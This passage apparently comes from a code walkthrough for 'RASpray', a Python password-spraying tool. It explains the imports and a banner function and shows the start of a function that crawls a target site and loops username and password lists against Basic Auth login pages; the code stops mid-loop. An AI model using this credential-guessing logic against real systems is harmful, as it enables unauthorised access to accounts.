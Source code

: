 - **Shebang (`#!/usr/bin/env python3`)**: This ensures the script runs using Python 3.
  
- **Imports**:
  - `sys`: Handles command-line arguments.
  - `re`: Provides regular expression matching for filtering usernames and passwords.
  - `requests`: Used for making HTTP requests.
  - `BeautifulSoup`: Parses HTML to extract form fields.
  - `HTTPBasicAuth`: Handles Basic Authentication.
  - `RequestException`, `Timeout`, `ConnectionError`: Handle various request errors.
  - `urljoin`: Ensures proper URL concatenation.
  - `colorama`: Adds color output to the terminal, allowing the tool to display success/failure messages and the banner in color.


---

#### 2. **Displaying the RASpray Banner**

```python
def display_banner():
    banner = r"""
    
    ██████╗  █████╗     ███████╗██████╗ ██████╗  █████╗ ██╗   ██╗
    ██╔══██╗██╔══██╗    ██╔════╝██╔══██╗██╔══██╗██╔══██╗╚██╗ ██╔╝
    ██████╔╝███████║    ███████╗██████╔╝██████╔╝███████║ ╚████╔╝ 
    ██╔══██╗██╔══██║    ╚════██║██╔═══╝ ██╔══██╗██╔══██║  ╚██╔╝  
    ██║  ██║██║  ██║    ███████║██║     ██║  ██║██║  ██║   ██║   
    ╚═╝  ╚═╝╚═╝  ╚═╝    ╚══════╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   
                                                             
    Version: 1.0.0
    """
    print(f"{Fore.RED}{banner}{Style.RESET_ALL}")
```

- **Purpose**: Displays the tool's banner in red using `colorama`'s `Fore.RED` feature. The banner includes the tool's name and version in an ASCII-art format.

---

#### 3. **Password Spraying Logic**

```python
def password_spraying(ip_address, username_file, password_file, criteria):
    successful_cracks = []
    failed_cracks = []

    with open(username_file, 'r') as

 user_file:
        usernames = [line.strip() for line in user_file.readlines()]
    
    with open(password_file, 'r') as pass_file:
        passwords = [line.strip() for line in pass_file.readlines()]

    usernames = filter_by_criteria(usernames, **criteria)
    passwords = filter_by_criteria(passwords, **criteria)
    
    session = requests.Session()
    base_url = f'http://{ip_address}'
    pages_to_check = traverse_website(base_url, session)
    
    for page in pages_to_check:
        full_url = urljoin(base_url, page)

        if is_password_requested_basic_password_field(full_url, session):
            for username in usernames:
                for password in passwords:
```